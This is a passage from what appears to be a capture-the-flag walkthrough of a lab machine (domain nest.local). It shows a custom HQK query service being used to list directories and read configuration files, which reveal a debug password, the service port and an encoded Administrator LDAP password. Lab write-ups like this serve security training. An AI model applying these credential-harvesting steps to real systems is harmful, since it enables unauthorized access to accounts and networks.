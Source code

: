 We go to the `C:\Program Files\HQK\` directory.

    :::text
    >list

    Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

    QUERY FILES IN CURRENT DIRECTORY

    [DIR]  ALL QUERIES
    [DIR]  LDAP
    [DIR]  Logs
    [1]   HqkSvc.exe
    [2]   HqkSvc.InstallState
    [3]   HQK_Config.xml

The Showquery function allow use to read the files in the current directory.
The file HQK_Config.xml contain our debugging password and the port of the
service.

    :::text
    >showquery 3

    <?xml version="1.0"?>
    <ServiceSettings xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
      <Port>4386</Port>
      <DebugPassword>WBQ201953D8w</DebugPassword>
      <QueryDirectory>C:\Program Files\HQK\ALL QUERIES</QueryDirectory>
    </ServiceSettings>

We go to the LDAP directory. We found the exe we already got and a configuration
file. This file contain the Administrator encoded password.

    :::text
    >setdir ldap

    Current directory set to ldap
    >list

    Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

    QUERY FILES IN CURRENT DIRECTORY

    [1]   HqkLdap.exe
    [2]   Ldap.conf

    Current Directory: ldap
    >showquery 2

    Domain=nest.local
    Port=389
    BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
    User=Administrator
    Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=
